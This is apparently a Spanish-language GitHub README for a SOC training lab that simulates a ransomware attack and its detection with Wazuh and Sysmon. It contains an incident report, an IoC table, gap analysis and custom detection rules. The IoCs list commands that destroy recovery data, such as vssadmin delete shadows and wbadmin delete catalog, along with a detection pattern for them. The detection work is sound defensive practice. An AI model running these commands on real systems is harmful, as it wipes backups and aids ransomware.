

---

## Reporte Ejecutivo del Incidente

**ID:** INC-2026-0824-001 | **Clasificación:** CONFIDENCIAL | **Estado:** CERRADO

### Resumen

Ataque de ransomware simulado detectado el 24/08/2026 en el endpoint `DESKTOP-60HVTTB` (Vuln-SOC, 192.168.64.135). Cadena completa ejecutada: destrucción de recovery → cifrado de 6 archivos en 3 carpetas → 13 alertas en Wazuh → recuperación total. Sin afectación a infraestructura de producción.

### Timeline

| Timestamp (UTC) | Evento |
|---|---|
| 23/08 22:13:38 | T1489 — sc.exe stop spooler detectado (Rules 92032/92052) |
| 23/08 22:58:48 | T1490 — vssadmin delete shadows detectado |
| 23/08 23:05:09 | T1490 — wbadmin delete catalog detectado |
| 24/08 00:57:31 | T1486 — Inicio del cifrado (python.exe → .locked) |
| 24/08 00:57:31 | Primera alerta T1486 — Rule 100200 (EID 11 FileCreate) |
| 24/08 00:57:32 | 13 alertas generadas (6 × EID 11 + 7 × EID 23) |
| 24/08 03:11:00 | Recuperación completa — 6 archivos restaurados |

### IoCs

| Tipo | Valor | Técnica |
|---|---|---|
| Proceso | python.exe (C:\Program Files\Python312\) | T1486 |
| Extensión | .locked | T1486 |
| Archivo dropeado | README_RECOVER.txt | T1486 |
| Comando | vssadmin.exe delete shadows /all /quiet | T1490 |
| Comando | wbadmin delete catalog -quiet | T1490 |
| Comando | sc.exe stop spooler | T1489 |
| Hash MD5 | B58073DB8892B67A672906C9358020EC (vssadmin.exe) | T1490 |
| Hash SHA256 | 8C1FABCC2196E4D096B7D155837C5F699AD7F55EDBF84571E4F8E03500B7A8B0 | T1490 |

### Impacto

| Categoría | Detalle |
|---|---|
| Archivos cifrados | 6 (.txt → .txt.locked) |
| Carpetas afectadas | 3 (Finanzas, RRHH, Proyectos) |
| Shadow copies | Eliminadas |
| Catálogo de backup | Eliminado |
| Datos exfiltrados | No detectado |
| Tiempo de cifrado | < 1 segundo |

### Recomendaciones

| Prioridad | Acción |
|---|---|
| Alta | Reglas custom específicas para T1489/T1490 (vssadmin/wbadmin/sc.exe con args destructivos) |
| Alta | Canal `System` en agente Wazuh para capturar EID 7036 |
| Alta | Backup offline no afectable por T1490 |
| Media | python.exe en monitoreo EID 1 de Sysmon |
| Media | Regla de correlación temporal T1489+T1490 → pre-alerta ransomware |

---

## Hallazgos y Gaps de Cobertura

### Gap 1 — EID 7036 no recolectado (T1489)
El Service Control Manager registra cambios de estado en el canal `System`. El agente no lo reenvía. Detección parcial: ejecución de `sc.exe` capturada, efecto (servicio detenido) no visible en SIEM.

**Fix:** Agregar a `ossec.conf`:
```xml
<localfile>
  <location>System</location>
  <log_format>eventchannel</log_format>
</localfile>
```

### Gap 2 — Reglas genéricas para T1489/T1490
Las tres técnicas dispararon T1059.003 (Windows Command Shell), no T1489/T1490. El SIEM detectó shell sospechoso pero no identificó la táctica de destrucción de recovery.

**Fix propuesto:**
```xml
<rule id="100220" level="14">
  <if_group>sysmon_eid1_detections</if_group>
  <field name="win.eventdata.image" type="pcre2">(?i)vssadmin\.exe$</field>
  <field name="win.eventdata.commandLine" type="pcre2">(?i)delete\s+shadows</field>
  <description>T1490 - Eliminación de Volume Shadow Copies via vssadmin</description>
  <mitre><id>T1490</id></mitre>
</rule>
```

### Gap 3 — EID 23 comentado en config base de Sysmon
El Event ID 23 (FileDelete) estaba completamente comentado en el archivo de configuración de SwiftOnSecurity. Requirió modificación manual. Sin este cambio, la fase de eliminación de archivos originales sería invisible.

### Gap 4 — python.exe fuera del scope de monitoreo
El proceso cifrador no disparó EID 1 porque `python.exe` no está en las reglas de include del Sysmon config base.

---

## Reglas Custom de Wazuh

| Rule ID | Técnica | EID Sysmon | Descripción | Level |
|---|---|---|---|---|
| 100200 | T1486 | 11 FileCreate | Archivo .locked creado por python.exe | 12 |
| 100210 | T1486 | 23 FileDelete | Original eliminado por python.exe | 12 |

Ver portafolio completo de reglas (100010–100110) en [Threat-Hunting-Detection-Lab](https://github.com/braianffernandez096-bripto/Threat-Hunting-Detection-Lab).

---

## Estructura del Repositorio

```
ransomware-sim-lab/
│
├── README.md
├── scripts/
│   ├── ransomware_sim.py
│   └── ransomware_decrypt.py
├── wazuh-rules/
│   └── local_rules.xml
├── sysmon-config/
│   └── sysmon-t1486-additions.xml
├── docs/
│   └── incident-report-INC-2026-0824-001.md
└── evidence/
    ├── 01-T1489-sc-cmdline-detalle
    ├── 02-T1489-cadena-proceso-wazuh
    ├── 03-T1489-rule92032-alerta
    ├── 04-T1490-vssadmin-cmdline-wazuh
    ├── 05-T1490-vssadmin-cadena-padre
    ├── 06-T1490-vssadmin-rule-mitre
    ├── 07-T1486-ejecucion-python-encrypt
    ├── 08-T1486-nota-rescate-readme-recover
    ├── 09-T1486-archivos-locked-finanzas
    ├── 10-T1486-13hits-overview-wazuh
    ├── 11-T1490-wbadmin-cmdline-wazuh
    ├── 12-T1490-wbadmin-cadena-padre
    ├── 13-T1490-wbadmin-rule92052-mitre
    ├── 14-Recuperacion-python-decrypt-output
    ├── 15-Recuperacion-archivos-restaurados
    ├── 16-T1486-rule100210-metadata-hashes
    ├── 17-T1486-rule100210-groups-impact
    ├── 18-T1486-rule100200-filecreate-locked
    └── 19-T1486-rule100200-description-mitre
```

---

## Autor

**Brian Fernández**  
Analista SOC en formación | Google Cybersecurity Professional  
[GitHub](https://github.com/braianffernandez096-bripto) · [https://www.linkedin.com/in/braian-fernandez96/](#)

> Ver también: [SOC-Full-Attack-Chain-LAB](https://github.com/braianffernandez096-bripto/SOC-Full-Attack-Chain-LAB) | [Threat-Hunting-Detection-Lab](https://github.com/braianffernandez096-bripto/Threat-Hunting-Detection-Lab)
